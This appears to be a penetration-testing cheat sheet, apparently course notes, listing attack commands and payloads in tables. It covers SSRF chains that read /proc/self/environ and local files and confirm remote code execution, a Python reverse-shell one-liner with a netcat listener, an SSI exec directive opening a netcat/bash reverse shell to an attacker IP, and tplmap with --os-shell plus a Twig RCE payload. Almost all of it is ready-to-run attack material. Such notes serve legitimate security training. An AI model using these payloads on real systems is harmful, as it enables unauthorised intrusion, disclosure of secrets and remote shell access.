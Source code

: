 | `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`       | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`        | Retrieving a local file through the target application                         |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code exeuction on the remote host                            |
| `sudo apt-get install jq`                                                                                         | Installing jq                                                                  |

### Blind SSRF Exploitation Example

| **Command**                                                                                                                                                                                                                        | **Description**                                  |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `nc -lvnp 9090`                                                                                                                                                                                                                    | Starting a netcat listener                       |
| `echo """<B64 encoded response>""" \| base64 -d`                                                                                                                                                                                   | Decoding the base64 encoded response             |
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoaded twice) |

## SSI Injection Exploitation Example

| **SSI Directive Payload**                                                                                   | **Description** |
| ----------------------------------------------------------------------------------------------------------- | --------------- |
| `<!--#echo var="DATE_LOCAL" -->`                                                                            | Date            |
| `<!--#printenv -->`                                                                                         | All variables   |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell   |

## SSTI Exploitation Example 1

| **Command**                                                                                              | **Description**                                                                                                    |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| `git clone https://github.com/epinna/tplmap.git`                                                         | Cloning the tplmap repoistory                                                                                      |
| `cd tplmap`                                                                                              | Navigating to the new directory                                                                                    |
| `pip install virtualenv`                                                                                 | Installing the virtual environment with pip                                                                        |
| `virtualenv -p python2 venv`                                                                             | Creating a virtual environment named venv with python2                                                             |
| `source venv/bin/activate`                                                                               | Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter |
| `pip install -r requirements.txt`                                                                        | Installing dependencies                                                                                            |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john`                                                | Running tplmap against the target                                                                                  |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell`                                     | Running tplmap with the os-shell option                                                                            |
| `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}` | Twig RCE payload                                                                                                   |

## SSTI Exploitation Example 2

| **Command**                                                                                                                               | **Description**                                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |